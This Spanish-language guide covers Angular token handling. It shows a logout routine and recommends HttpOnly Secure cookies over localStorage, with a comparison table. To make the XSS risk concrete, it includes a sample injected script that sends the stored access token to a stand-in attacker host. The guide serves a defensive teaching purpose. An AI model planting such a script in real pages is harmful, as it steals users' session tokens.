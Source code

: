 ```typescript
        this.authService.logout();
        return throwError(error);
      })
    );
  }
}
```

#### Paso 4: Logout
```typescript
logout() {
  const refreshToken = this.getRefreshToken();
  
  return this.http.post('/auth/logout', { refreshToken })
    .pipe(
      finalize(() => {
        this.clearTokens();
        this.router.navigate(['/login']);
      })
    );
}
```

---

## 🔒 Almacenamiento de Tokens - Recomendación de Seguridad

### ⚠️ Importante: NO usar localStorage

El documento de la prueba técnica menciona `localStorage`, pero **NO es la opción más segura**. Aquí está el por qué:

### Comparación de Métodos

| Método | Seguridad | Ventajas | Desventajas | Recomendado |
|--------|-----------|----------|-------------|-------------|
| **localStorage** | ❌ Vulnerable a XSS | Fácil de usar, persistente | Accesible por JavaScript malicioso, sin protección | ❌ **NO** |
| **sessionStorage** | ❌ Vulnerable a XSS | Fácil de usar, se limpia al cerrar | Accesible por JavaScript malicioso, no persiste | ❌ **NO** |
| **Cookies HttpOnly + Secure** | ✅ Seguro | Inmune a XSS, automático en requests | Más complejo de implementar | ✅ **SÍ** |

### Por qué NO localStorage:

```typescript
// ❌ VULNERABLE A XSS (Cross-Site Scripting)
localStorage.setItem('accessToken', token);

// Si un atacante inyecta JavaScript malicioso:
<script>
  fetch('https://atacante.com/robar', {
    method: 'POST',
    body: localStorage.getItem('accessToken') // ¡Token robado!
  });
</script>
```
